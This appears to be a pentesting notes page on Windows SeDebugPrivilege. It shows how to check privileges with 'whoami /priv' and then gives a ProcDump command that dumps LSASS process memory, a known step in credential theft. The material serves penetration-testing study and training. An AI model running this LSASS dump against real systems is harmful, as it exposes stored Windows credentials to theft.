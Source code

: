 ```yaml
---
title: SeDebugPrivilege
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
  - SeDebugPrivilege
---
```

# 🗒️ SeDebugPrivilege

This privilege can be used to capture sensitive information from system memory, or access/modify kernel and application structures. A user might be assigned the SeDebugPrivilege without belonging to the administrators group.

```powershell
whoami /priv
```

Output:

```cmd-session
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```


### Dumping lsass
We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory.

Dumping the Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) process:

```cmd-session
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
